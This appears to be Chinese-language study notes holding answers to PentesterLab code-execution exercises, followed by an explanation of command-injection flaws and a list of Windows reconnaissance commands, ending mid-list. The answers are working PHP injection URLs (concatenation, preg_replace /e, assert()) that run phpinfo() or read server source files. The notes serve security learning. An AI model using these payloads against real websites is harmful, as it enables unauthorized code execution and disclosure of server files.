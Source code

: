 	pentesterlab之code_exec答案
	{
	example1:
		字符串连接符
		http://218.9.118.151:5677/codeexec/example1.php?name=hacker".phpinfo();//
		http://218.9.118.151:5677/codeexec/example1.php?name=hacker".phpinfo();$dummy="
		
		
	example2:		
	http://218.9.118.151:5677/codeexec/example2.php?order=id);}phpinfo();//
	
	example3:	
	preg_replace/e
	http://218.9.118.151:5677/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer
	
	
	example4:
	assert()
	http://218.9.118.151:5677/codeexec/example4.php?name=hacker'.phpinfo().'
	
	http://218.9.118.151:5677/codeexec/example4.php?name=hacker'.show_source("/var/www/codeexec/example3.php") .'
	}
}		
		

命令执行
{

	原理：
	{
		应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、passthru、popen、proc_popen等，
		当用户能控制这些函数中的参数时，就可以将恶意系统命令拼接到正常命令中，从而造成系统命令执行攻击，这就是命令执行漏洞
	}

	常见函数：
	{
			PHP：system、exec、shell_exec、passthru、popen、proc_popen
			ASP：
			JSP：
			ASPX：
			JAVA:
	}

	常用命令
	{
		windows:
		ping 192.168.1.1
		dir
		systeminfo
		ver
		whoami
		net user
		netstat -ano
		ipconfig
		